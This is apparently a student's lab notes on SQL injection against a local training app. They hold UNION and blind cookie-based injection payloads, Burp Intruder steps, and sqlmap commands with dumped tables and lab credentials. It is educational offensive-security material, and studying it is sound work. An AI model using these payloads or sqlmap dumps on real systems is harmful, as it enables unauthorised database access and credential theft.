





# Web App - SQL Injection

> - [SQL injection cheat sheet | Web Security Academy](https://portswigger.net/web-security/sql-injection/cheat-sheet)

➡️ A **SQL injection** attack consist of an injection of a (malicious) SQL query via the user input from the client to the application, allowing attackers to read, modify, or delete database data, execute administrative operations, access files, or issue OS commands.

---

## SQL injection - UNION

```bash
# Basic SQLi

# Try some Username inputs like
jeremy
jeremy'
jeremy"
jeremy j
# special characters can break the SQL query

jeremy' or 1=1#
jeremy' or 1=1-- -
# 1=1 statement is always true -> the result is always true
# anything after #, -- -, etc, will be ignored

# UNION
jeremy' union select null#
jeremy' union select null,null,null#
jeremy' union select null,null,version()#
jeremy' union select null,null,table_name from information_schema.tables#
jeremy' union select null,null,column_name from information_schema.columns#

jeremy' union select null,null,password from injection0x01#
```

---

## SQL injection - Blind

- Run BurpSuite, set `http://localhost/` as project (target) **Scope** and login as `jeremy:jeremy` at `http://localhost/labs/i0x02.php`
- Check the **Request** and **Response** in the BurpSuite HTTP history

```bash
# Request
POST /labs/i0x02.php HTTP/1.1
Host: localhost
Content-Length: 31
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/labs/i0x02.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=jeremy&password=jeremy
```

```bash
# Response
HTTP/1.1 200 OK
Date: Mon, 24 Feb 2025 20:56:29 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Set-Cookie: session=6967cabefd763ac1a1a88e11159957db; expires=Mon, 24-Feb-2025 21:56:29 GMT; Max-Age=3600
Refresh: 0; url=/labs/i0x02.php
Vary: Accept-Encoding
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: *
Content-Length: 1928
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en">
...
</html>
```

- `Set-Cookie: session=...` - important session token
  - The followed GET requests had the `Cookie: session=...` header set - login ok
- `Content-Length: 1027` - may be necessary
- Test for injections by sending to **Repeater** the POST request and modify it

```bash
# Payload
username=jeremy&password=password

# Response
Content-Length: 2122
# there is a SQL error
```

```bash
username=jeremy'+or+1%3d1%23&password=password
# URL-encoded key characters (CTRL+U)

# Response
Content-Length: 2122
# there is a SQL error
```

- Try to automate the process with `sqlmap`

➡️ [sqlmap](https://sqlmap.org/) - automatic SQL injection and database takeover tool

- Copy the Request into a new file

```bash
sqlmap -r req.txt
# no injectable testd parameters
```



- Send the `GET` request with the Cookie to the repeater

```bash
# Successful login
Content-Length: 1027

# With Cookie modified
Content-Length: 1928 # no login

# With Cookie injected
Cookie: session=6967cabefd763ac1a1a88e11159957db' and 1=1#

Content-Length: 1027 # and login success
```

📌 Modifying or manipulating the session cookie by injecting SQL and receiving the same successful response suggests the presence of **SQL injection**

- Make a query that gets the version character by character from the database
  - [MySQL SUBSTRING() Function](https://www.w3schools.com/sql/func_mysql_substring.asp)

```bash
# substring e.g.
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring('a', 1, 1) = 'a'#

Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()), 1, 1) = '8'#

Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()), 1, 4) = '8.0.'#

Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()), 1, 5) = '8.0.3'#
# version enumeration Successfully

Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select password from injection0x02 where username = 'jessamy'), 1, 1) = 'a'#
# takes too long manually
```

- Extract `jessamy`'s password via **Intruder**
  - send the Request to Intruder
  - set the last letter `a` of the inject as Position
  - add all keyboard letters to the payload simple list
  - start attack
  - filter by **length** or **status code**



- Continue the attack with Intruder or proceed with `sqlmap`

```bash
nano req2.txt # paste the Request with unmodified Cookie

sqlmap -r req2.txt --level=2

---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 9663=9663 AND 'XdcY'='XdcY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND (SELECT 9555 FROM (SELECT(SLEEP(5)))biVe) AND 'bAxW'='bAxW
---
```



```bash
# Dump
sqlmap -r req2.txt --level=2 --dump -T injection0x02

Database: peh-labs
Table: injection0x02
[2 entries]
+-------+----------+----------+---------+
| email	| password | username | session |
+-------+----------+----------+---------+
| jeremy@example.com  | jeremy | jeremy | 6967cabefd763ac1a1a88e11159957db |
| jessamy@example.com | ZWFzdGVyZWdn | jessamy  | 9dedc6891e2839a791ed37157f1241fe |
+-------+----------+----------+---------+
```



---

## SQL injection - Challenge

- `http://localhost/labs/i0x03.php`
- Find credentials and login into the users table

```bash
# Request
POST /labs/i0x03.php HTTP/1.1
Host: localhost
Content-Length: 28
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/labs/i0x03.php
Accept-Encoding: gzip, deflate, br
Cookie: session=6967cabefd763ac1a1a88e11159957db
Connection: keep-alive

product=Shougatsu+Sushi+Rack
```

```bash
x' or 1=1#
# returns all the products

Senpai Knife Set' union select null,null,null,null#
# the products table may have only 4 columns

Senpai Knife Set' union select null,null,null,table_name from information_schema.tables#
	injection0x03_products
	injection0x03_users
Senpai Knife Set' union select null,null,null,column_name from information_schema.columns#
	mfa
	password
	username

Senpai Knife Set' union select null,null,null,username from injection0x03_users#
	takeshi

Senpai Knife Set' union select null,null,null,password from injection0x03_users#
	onigirigadaisuki

# One query
Senpai Knife Set' union select username,password,null,null from injection0x03_users#
	takeshi:onigirigadaisuki # Creds found
```

- Test with `sqlmap`

```bash
nano req3.txt

sqlmap -r req3.txt -T injection0x03_users --dump

---
Database: peh-labs
Table: injection0x03_users
[1 entry]
+------------------+----------+
| password         | username |
+------------------+----------+
| onigirigadaisuki | takeshi  |
+------------------+----------+
---
```



---

